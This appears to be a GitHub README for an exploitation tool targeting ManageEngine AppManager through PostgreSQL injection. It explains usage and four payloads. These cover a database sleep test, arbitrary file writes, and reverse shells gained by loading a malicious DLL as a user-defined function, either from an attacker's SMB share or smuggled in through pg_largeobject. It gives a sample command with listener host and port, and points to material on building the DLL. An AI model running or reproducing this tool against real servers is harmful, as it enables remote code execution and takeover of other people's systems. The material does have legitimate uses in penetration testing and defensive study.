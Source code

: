 # ManagePwngine
Automatic exploitation script for ManageEngine AppManager v12900. 
Principles apply to any PostgreSQL injection.

# Usage

There are 4 payload types included with this tool:
- sleep
- shell
- write
- ezshell

Each payload type has slightly different requirements.

This tool can be used once a payload is selected:
`python3 ManagePwngine.py {payload} {target} {arguments}`

For example:
`python3 ManagePwngine.py ezshell localhost --dll shell.dll --lhost 192.168.0.1 --lport 1337`

All payloads require a payload and a target. Certain payloads require more configuration.

## sleep

The `sleep` payload requires no additional arguments. A `sleep()` function will be injected and the database will hang.
This payload is recommended as a first-pass to validate whether or not injection is possible against the target.

![sleep payload](/static/sleep.png)

## write

The `write` payload requires no additional arguments.
The payload will write a `test.txt` file to `C:\test.txt` with the contents `pwned` using a `COPY TO` injection. This can be modified as needed
to write arbitrary files in arbitrary locations.

![write payload](/static/write.png)

## shell

The `shell` payload requires the following arguments:
- `--lhost`: Your listener IP.
- `--lport`: Your listener port.
- `--dll`: The name of the malicious DLL that will be loaded remotely by PostgreSQL. See the DLL section for more information.
- `--smbshare`: The name of your SMB share hosting the malicious DLL.

Optionally:
- --function: The name of the function within the DLL that creates the reverse shell connection. See the DLL section for more information.

The payload will use `CREATE OR REPLACE FUNCTION` to create a User-Defined Function (UDF) that PostgreSQL will load from a remote location - your SMB share.
Once the UDF is created, it is triggered to call your reverse shell. The success of this injection hinges on your compiled DLL.

![shell payload](/static/shell.png)

## ezshell

The `ezshell` payload requires the following arguments:
- `--lhost`: Your listener IP.
- `--lport`: Your listener port.
- `--dll`: The name of the malicious DLL saved locally.

Optionally:
- --function: The name of the function within the DLL that creates the reverse shell connection. See the DLL section for more information.

The payload will inject your DLL into the `pg_largeobject` table, 2048 bytes at a time. Once the full binary is loaded, the large object (LO) will be exported,
then a UDF will be created and triggered using the newly-saved DLL. This is considered 'ez' since there is no SMB setup or remote calls required, so this is
exploitable remotely.

![ezshell payload](/static/ezshell.png)

---

# DLL Information

The malicious DLL needs to be compiled with a `PG_MODULE_MAGIC` macro. There are several references online, like:

- https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#rce-in-windows
- https://zerosum0x0.blogspot.com/2016/06/windows-dll-to-shell-postgres-servers.html

If you create a function name other than `connect_back` within the DLL, you'll need to provide it to the `shell` or `ezshell` payloads with `--function`.